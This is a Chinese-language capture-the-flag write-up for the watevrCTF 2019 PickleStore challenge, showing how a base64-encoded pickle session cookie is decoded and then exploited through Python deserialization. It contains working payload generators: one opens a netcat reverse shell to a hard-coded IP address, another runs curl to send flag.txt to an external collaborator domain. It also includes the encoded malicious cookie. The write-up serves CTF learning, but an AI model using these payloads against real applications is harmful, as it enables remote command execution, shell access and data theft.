

# watevrCTF-2019-PickleStore

首先打开网页。



这种买东西的网站一般都是跟伪造session有关，先抓个包，看到session。

但是session数据看起来不是jwt，有点像base64编码

```
gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu
```

解个码试试


发现解码后还是有乱码，这时候注意到题目pickle（python反序列化）。

所以猜测需要先base64解码然后再pickle反序列化得到明文

```
import base64
import pickle

print(pickle.loads(base64.b64decode('gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu')))

->
{'money': 500, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
```

这里存在python反序列化漏洞，我们可以通过该漏洞去反弹shell或者去进行命令执行外带数据。

## 反弹shell

注意：这里需要有公网ip，但是我的云服务器到期了，所以我选择外带。

```
import base64
import pickle


class A(object):
    def __reduce__(self):
        return (eval, ("__import__('os').system('nc 114.55.129.236 9999 -e/bin/sh')",))
a = A()
print(base64.b64encode(pickle.dumps(a)))
```

## curl外带数据

这里可以使用bp的外带模块或者Yakit的dns外带模块，先生成一个域名，然后替换脚本中的域名

```
import base64
import pickle


class A(object):
    def __reduce__(self):
        return (eval, ("__import__('os').system('curl http://www.vkjyx8vrali1q58afmhb5k4v3m9dx3ls.oastify.com?1=`cat flag.txt`')",))
a = A()
print( base64.b64encode( pickle.dumps(a) ) )
```

```
gASVhAAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIxoX19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2N1cmwgaHR0cDovL3d3dy52a2p5eDh2cmFsaTFxNThhZm1oYjVrNHYzbTlkeDNscy5vYXN0aWZ5LmNvbT8xPWBjYXQgZmxhZy50eHRgJymUhZRSlC4=
```

将生成后的字符串替换掉网站原cookie，然后刷新即可，然后bp开启轮询，即可拿到flag


